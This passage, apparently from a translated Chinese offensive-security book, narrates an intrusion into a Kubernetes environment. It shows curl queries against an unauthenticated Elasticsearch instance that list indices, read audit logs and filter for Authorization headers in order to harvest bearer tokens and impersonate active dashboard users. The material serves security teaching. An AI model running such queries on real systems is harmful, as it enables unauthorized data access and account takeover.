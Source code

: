 由于受信网络的荒谬性，认证和加密是最先被放弃的措施。我至今还没遇到过需要认证的内网 Redis 数据库。Elasticsearch 和其他著名的非关系型数据库也是如此，它们开玩笑地要求管理员在“安全”的环境中运行应用程序，不知道那意味着什么。

我理解。安全性显然不是管理员的工作；他们更愿意关注性能、可用性和数据一致性。但这种思维方式不仅是有缺陷的，而且是鲁莽的。安全是任何数据驱动技术的首要要求。数据承载信息，信息等同于权力。自从人类学会八卦以来，这一点就一直是对的。管理员忽视安全，就像核电厂声称它的唯一工作是分裂铀同位素。安全措施？“不，我们不做这些。我们把反应堆放在一个安全的建筑里运行。”

我们选择首先关注 Elasticsearch 的 pods，因为审计日志总是一个有价值的情报来源。它们会记录诸如哪个服务与哪个数据库通信、哪些 URL 端点是活动的、数据库查询是什么样的。我们甚至能在不小心泄露到调试堆栈跟踪中的环境变量里找到密码。

我们回到 Elasticsearch 的 pod 描述，提取该 pod 的 IP 地址（10.20.86.24）和端口（9200），并准备查询该服务。默认情况下，Elasticsearch 没有启用认证，因此多亏了“受信环境”的神话，我们可以完全访问其中存储的数据。

Elasticsearch 将数据组织成*索引*，这些索引实际上是文档的集合。可以将索引视为传统关系型数据库系统（如 MySQL）中的数据库。在这里，我们拉取集群中定义的索引列表：

```
shell> **curl "10.20.86.24:9200/_cat/indices?v"**

health index id                          size
yellow test  CX9pIf7SSQGPZR0lfe6UVQ...   4.4kb
yellow logs  dmbluV2zRsG1XgGskJR5Yw...   154.4gb
yellow dev   IWjzCFc4R2WQganp04tvkQ...   4.4kb
```

我们看到有 154GB 的审计日志数据准备好进行探索。我们从日志索引中拉取最后几条文档：

```
shell> **curl "10.20.86.24:9200/log/_search?pretty&size=4"**

"hits": [{
`--snip--`
  "_source": {
1 "source": "dashboard-7654-1235",
  "level": "info",
2 "message": "GET /api/dashboard/campaign...\n
  Host: api-core\nAuthorization Bearer 9dc12d279fee485...",
  "timestamp": "2019-11-10T14:34:46.648883"
}}]
```

Elasticsearch 返回的四个元素中的 `message` 字段包含存储的原始日志信息。我们挖掘出看似是对 [api/dashboard/campaign/1395412512](http://api/dashboard/campaign/1395412512) URL 2 的 HTTP 请求。我们还发现了在第四章外部侦察阶段曾注意到的关于仪表盘应用的引用 1。审计日志中的 URL 暗示，由仪表盘应用加载的活动数据可能是通过名为 `api-core` 的内部端点检索的（参见 `Host` 头）2。

有趣的是，我们检索到的 HTTP 消息携带了一个授权令牌，可能是用来识别请求数据的用户。我们可以通过在 Elasticsearch 中应用正确的搜索过滤器 `message:Authorization` 来集中查看所有存储的令牌。这应该能帮助我们收集足够的令牌，伪装成仪表盘应用上所有当前活跃的用户：

```
shell> **curl "10.20.86.24:9200/log/_search?pretty&size=12&q=message:Authorization"**

"_timestamp": 1600579234
"message": "...Host: api-core\nAuthorization Bearer 8b35b04bebd34c1abb247f6baa5dae6c..."

"_timestamp": 1600581600
"message": "...Host: api-core\nAuthorization Bearer 9947c7f0524965d901fb6f43b1274695..."
`--snip--`
```
